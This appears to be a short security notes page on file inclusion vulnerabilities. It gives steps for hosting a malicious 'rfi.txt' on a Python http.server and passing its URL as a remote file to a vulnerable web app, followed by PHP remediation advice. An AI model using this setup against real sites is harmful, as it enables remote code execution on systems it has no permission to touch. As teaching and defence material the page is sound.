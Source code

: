 ## Setup malicious file locally
### usage of python build in http server
1. create executable file `rfi.txt` in a secure folder (probably an empty folder, because everything in here is shared publicly)
2. get your public IP (`ifconfig` inet with public IP) - but must be allowed by router / firewall settings
3. run `python -m http.server` in that folder
4. access that file via `http://YOUR_IP:8000/rfi.txt`
5. provide that url as remote file



# Remediation: How to prevent File Inclusions
1. keep system, services, web application frameworks and everthiy up to date
2. turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. use a Web Application Firewall (WAF)
4. disable PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as `allow_url_fopen` on and `allow_url_include`
5. allow only protocols and wrappers that are in need
6. never trust user input and validate it properly
7. implement whitelisting (and blacklisting) for files